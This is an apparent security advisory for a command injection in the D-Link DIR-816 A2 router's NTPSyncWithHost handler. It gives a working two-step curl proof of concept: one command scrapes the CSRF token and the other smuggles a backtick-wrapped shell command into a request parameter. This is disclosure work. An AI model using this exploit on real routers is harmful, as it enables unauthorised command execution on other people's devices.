

# D-Link DIR-816 A2 Command Injection

**Vender** ：D-Link

**Firmware version**:1.10 B05

**Exploit Author**: nabla@galaxylab.org

**Vendor Homepage**: http://www.dlink.com.cn/

**Hardware Link**:http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

## Vul detail ##

In the handler of route `/goform/NTPSyncWithHost`, all parameters are used in the construction of command `date -s %s`:



So it could lead to command injection with crafted request.

## POC

There's a random token required by the route, which is used as a mitigation against CSRF. So first we need to get its value:

```bash
TOKENID=`curl -s http://192.168.0.1/dir_login.asp | grep tokenid | head -1 | grep -o 'value="[0-9]*"' | cut -f 2 -d = | tr -d '"'`
```

Then we send the crafted parameter along with the token to the route:

```bash
curl -i -X POST http://192.168.0.1/goform/NTPSyncWithHost -d '`touch /tmp/test`=1' -d tokenid=$TOKENID
```

